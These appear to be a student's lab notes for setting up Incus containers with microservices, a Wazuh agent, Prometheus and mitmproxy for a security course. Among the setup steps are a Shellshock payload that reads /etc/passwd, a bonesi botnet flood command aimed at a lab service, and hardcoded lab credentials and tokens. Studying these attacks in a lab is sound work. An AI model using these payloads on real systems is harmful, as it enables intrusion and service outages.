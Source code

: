 ### localhost on projeto1/myservice
python3 -m http.server


### registry DONE
incus launch images:ubuntu/20.04 registry --profile default

setup:
incus shell registry
apt install wget nano pip
wget http://10.0.2.15:8000/requirements.txt
wget http://10.0.2.15:8000/registry.py
pip install -r requirements.txt

run: 
incus shell registry
python3 registry.py
http://{ip}:5000/services

auth:
	get token: 
		curl -X POST http://10.151.101.12:5000/auth/login \
		-H "Content-Type: application/json" \
		-d '{"username": "ssle", "password": "ssle"}'

		{"token":
		"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNzbGUiLCJleHAiOjE3MzE4NjkyODR9.dWQcG17u_7nwc34j-4cbJCWykpuVpb7X3PNyniKnsGg"
		}

	make requests:
		
		curl -X GET http://10.151.101.12:5000/services \
		-H "Authorization: Bearer <token>"


setup wazup agent:
	apt install gpg curl iptables
	curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | gpg --no-default-keyring --keyring gnupg-ring:/usr/share/keyrings/wazuh.gpg --import && chmod 644 /usr/share/keyrings/wazuh.gpg
	echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | tee -a /etc/apt/sources.list.d/wazuh.list
	apt-get update
	WAZUH_MANAGER="WAZUH_IP" apt-get install wazuh-agent
	systemctl daemon-reload
	systemctl enable wazuh-agent
	systemctl start wazuh-agent

	shellshock:
 		curl -H "User-Agent: () { :; }; /bin/cat /etc/passwd" 10.151.101.12:5000/services
	
	auth brute force:
		
	
### sensor DONE
incus launch images:ubuntu/20.04 sensor --profile default

setup: 
incus shell sensor
apt install wget nano pip
wget http://10.0.2.15:8000/requirements.txt
wget http://10.0.2.15:8000/sensor.py
pip install -r requirements.txt

run:
incus shell sensor
python3 sensor.py

### temperatureC DONE
incus launch images:ubuntu/20.04 temperatureC --profile default

setup:
incus shell temperatureC
apt install wget nano pip
wget http://10.0.2.15:8000/requirements.txt
wget http://10.0.2.15:8000/temperature_C.py
pip install -r requirements.txt


incus profile add temperatureC weak
incus profile remove temperatureC default

run:
incus shell temperatureC
python3 temperature_C.py

make requests:
	curl -X GET http://10.151.101.153:5003/temps \
        -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNzbGUiLCJleHAiOjE3MzE4NjkyODR9.dWQcG17u_7nwc34j-4cbJCWykpuVpb7X3PNyniKnsGg"
	
	curl -X GET http://10.151.101.153:5003/tempsbyConti?continent=africa \
        -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNzbGUiLCJleHAiOjE3MzE4NjkyODR9.dWQcG17u_7nwc34j-4cbJCWykpuVpb7X3PNyniKnsGg"
	
	curl -X GET http://10.151.101.153:5003/temps_of_day?date=2024-11-12 \
        -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNzbGUiLCJleHAiOjE3MzE4NjkyODR9.dWQcG17u_7nwc34j-4cbJCWykpuVpb7X3PNyniKnsGg"


### temperatureF DONE
incus launch images:ubuntu/20.04 temperatureF --profile default

setup:
incus shell temperatureF
apt install wget nano pip
pip install -r requirements.txt

run:
incus shell temperatureF
python3 temperature_F.py

make requests:
	curl -X GET http://10.151.101.136:5004/temps \
        -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNzbGUiLCJleHAiOjE3MzE4NjkyODR9.dWQcG17u_7nwc34j-4cbJCWykpuVpb7X3PNyniKnsGg"
	
	curl -X GET http://10.151.101.136:5004/tempsbyConti?continent=africa \
        -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNzbGUiLCJleHAiOjE3MzE4NjkyODR9.dWQcG17u_7nwc34j-4cbJCWykpuVpb7X3PNyniKnsGg"
	
	curl -X GET http://10.151.101.136:5004/temps_of_day?date=2024-11-12 \
        -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNzbGUiLCJleHAiOjE3MzE4NjkyODR9.dWQcG17u_7nwc34j-4cbJCWykpuVpb7X3PNyniKnsGg"


### exporter DONE 2/3 (?sensor?)
incus launch images:ubuntu/20.04 exporter --profile default

setup:
incus shell exporter
apt install wget nano pip
wget http://10.0.2.15:8000/requirements.txt
wget http://10.0.2.15:8000/exporter.py
pip install -r requirements.txt
apt install iptables

run:
incus shell exporter
python3 exporter.py
(http://{ip}:9090/classic/targets)

### mqtt-broker NOT DONE
incus launch images:ubuntu/20.04 mqtt-broker --profile default
incus exec mqtt-broker -- apt update
incus exec mqtt-broker -- apt install -y mosquitto mosquitto-clients
incus exec mqtt-broker -- systemctl start mosquitto

### prometheus
add exporter --> vi /ect/prometheus/prometheus.yml

### botnet

run:
incus shell botnet-container
bonesi --ips=50k-bots 10.151.101.153:5003 (temperaturaC)

### CHECK METRIC
curl http://10.151.101.37:8000/metrics
or
http://{ip}:9090/classic/targets


### MITM
incus launch images:ubuntu/22.04 mitmproxy --profile default
incus config device add mitmproxy proxy-port4 proxy listen=tcp:0.0.0.0:8080 connect=tcp:127.0.0.1:8080
incus config device add mitmproxy proxy-port5 proxy listen=tcp:0.0.0.0:8081 connect=tcp:127.0.0.1:8081
sudo ufw allow 8081/tcp
sudo ufw allow 8080/tcp

setup:
incus shell mitmproxy
apt install git python3.10 python3.10-venv
git clone https://github.com/mitmproxy/mitmproxy.git
cd mitmproxy
python3 -m venv venv
venv/bin/pip install -e ".[dev]"

run:
source venv/bin/activate
mitmweb --listen-port 8080 --web-port 8081 --listen-host 0.0.0.0 --ssl-insecure



### normal user
incus launch images:ubuntu/22.04 user --profile default

setup:
incus shell user

run:
python3 consumer.py
